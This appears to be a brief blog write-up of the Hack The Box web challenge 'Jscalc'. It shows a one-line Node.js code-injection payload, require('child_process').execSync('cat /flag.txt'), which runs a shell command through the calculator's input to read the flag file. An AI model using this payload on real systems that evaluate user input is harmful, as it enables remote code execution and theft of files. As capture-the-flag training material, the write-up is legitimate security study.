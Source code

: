 ```yaml
---
layout: post
title:  "Jscalc"
date:   2025-03-29 20:30:00 -0400
categories: HTB-challenge web easy
tags: HTB CTF writeup
---
```


### SOLUTION
We download the zip file, unzip it and we have `package.json`. We know that the web is running on `NodeJS` server.
![](assets/img/htb/jscalc/1.png)

So we can do some `NodeJS RCE`.

```
require( 'child_process') ,execSync( 'cat /flag.txt').toString( )
``` 
![](assets/img/htb/jscalc/2.png)
